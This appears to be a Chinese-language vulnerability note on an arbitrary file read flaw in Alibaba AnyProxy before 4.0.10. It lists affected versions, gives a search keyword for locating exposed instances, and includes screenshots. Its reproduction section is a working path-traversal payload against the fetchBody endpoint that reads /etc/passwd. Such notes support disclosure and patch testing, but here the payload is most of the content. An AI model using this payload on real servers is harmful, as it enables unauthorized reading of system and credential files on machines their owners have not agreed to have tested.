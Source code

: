 # Alibaba AnyProxy fetchBody 任意文件读取漏洞

## 漏洞描述

Alibaba AnyProxy 低版本存在任意文件读取，通过漏洞，攻击者可以获取服务器敏感信息

## 漏洞影响

<a-checkbox checked>Alibaba AnyProxy < 4.0.10</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"anyproxy"</a-checkbox></br>

## 漏洞复现

页面如下

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20210718204835288.png)



验证POC为

```plain
/fetchBody?id=1/../../../../../../../../etc/passwd
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20210718204843037.png)